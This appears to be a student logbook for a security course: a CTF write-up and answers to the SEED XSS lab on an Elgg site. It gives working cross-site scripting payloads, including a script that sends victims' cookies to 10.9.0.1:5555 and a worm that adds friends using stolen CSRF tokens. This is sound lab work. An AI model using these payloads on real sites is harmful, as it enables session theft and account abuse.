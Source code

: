 This logbook is divided into 2 sections, one referring to the CTF - week 10, and another concerning the tasks for week 10.

# CTF - Week 10

## Challenge 1

For this challenge, we needed to make a request to the administrator to give access to the flag. For that, we started by checking what happened when a request was made by typing the string *"flag"* and we concluded that it appeared a page with two disabled buttons, as seen in the picture below:

![challenge1_1](LOGBOOK_screenshots/LOGBOOK10/challenge1_1.png)

Then, we tried to see what would happen when we would type some HTML code. For that, we typed:

```html
<button onclick="myFunction()">Click me</button>
```
And the result was as seen in the picture:

![challenge1_2](LOGBOOK_screenshots/LOGBOOK10/challenge1_2.png)

With this, we concluded that there existed a cross-site scripting vulnerability and to take advantage of that, we inspected the page to see the button id. We concluded it was *giveflag*:

![challenge1_3](LOGBOOK_screenshots/LOGBOOK10/challenge1_3.png)

Having that, we could write code to click the disabled button. For that, we typed:

```html
<script> document.getElementById("giveflag").click();</script>
```

After some time waiting for an answer, we were able to get the flag.

![challenge1_4](LOGBOOK_screenshots/LOGBOOK10/challenge1_4.png)


## Challenge 2

<!---
![challenge2](LOGBOOK_screenshots/LOGBOOK10/challenge2.png)
-->
____
____

# Cross-Site Scripting (XSS) Attack Lab

## Task 1: Posting a Malicious Message to Display an Alert Window

During this task, we needed to embed a JavaScript program in a profile, such that when another user viewed its profile, an alert window would appear. We chose Alice's Profile. For that we clicked on the option to edit the profile and in the brief description, we added the following code:
```js
<script>
    alert("XSS");
</script> 
```
After that, from another user's profile, when clicking on Alice's profile we would see a pop-up window with the message *XSS*, as we can see in the picture below:

![task1](LOGBOOK_screenshots/LOGBOOK10/task1.png)

## Task 2: Posting a Malicious Message to Display Cookies

The goal for this task was to embed a JavaScript program in a profile, such that when the user viewed their own profile, an alert window would appear with the user's cookies. For that we changed the code inserted in the brief description to:

```js
<script>
    alert(document.cookie);
</script>
```

After that, logged into Alice profile, on her profile page, we would see a pop-up window with the message with the cookies, as we can see in the picture below:

![task2](LOGBOOK_screenshots/LOGBOOK10/task2.png)

##  Task 3: Stealing Cookies from the Victim's Machine

In this task, the goal was to use the JavaScript code to send cookies to another profile. In this case, Alice was the attacker and she would be able to see other's cookies. For that, we changed the code in the brief description to:
```js
<script>
    document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + ' >');
</script>
```
We can see the result when we used the *netcat* program in the picture below:

![task3](LOGBOOK_screenshots/LOGBOOK10/task3.png)


## Task 4: Becoming the Victim's Friend

The goal for task 4 was to perform an attack that would write an XSS worm that added Samy as a friend to any other user that would visit Samy's page. For that, we started by seeing what happened when a friend request was sent.

![task4_1](LOGBOOK_screenshots/LOGBOOK10/task4_1.png)

We concluded that the friend id, the variables *__elgg_ts* and *__elgg_token* and the cookies were sent to the server in every friend request. 

Then, it was needed to add in the *"About Me"* field (using Edit HTML option), the JavaScript program to send out the HTTP request to add a friend.

```js
<script type="text/javascript">
window.onload = function () {
  var Ajax=null;

  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;

  //Construct the HTTP request to add Samy as a friend.
  var sendurl= "http://www.seed-server.com/action/friends/add" + "?friend=59" + token + ts;
  
  //Create and send Ajax request to add friend
  Ajax=new XMLHttpRequest();
  Ajax.open("GET", sendurl, true);
  Ajax.send();
}
</script>
```
After that, we checked that in other users' profiles we were able to add Samy as friend only by seeing his profile.

![task4_2](LOGBOOK_screenshots/LOGBOOK10/task4_2.png)

#### **Question 1: Explain the purpose of Lines ➀ and ➁, why are they are needed?**

Lines 1 and 2 get the values of the *__elgg_ts* and *__elgg_token* variables. These values are used against Cross Site Request Forgery attacks. The values change every time a page is loaded, so they need to be accessed every time.

#### **Question 2:  If the Elgg application only provide the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?**
No, if the application only provided the Editor mode, the attack would not be successful since this mode adds extra HTML and some symbols change.
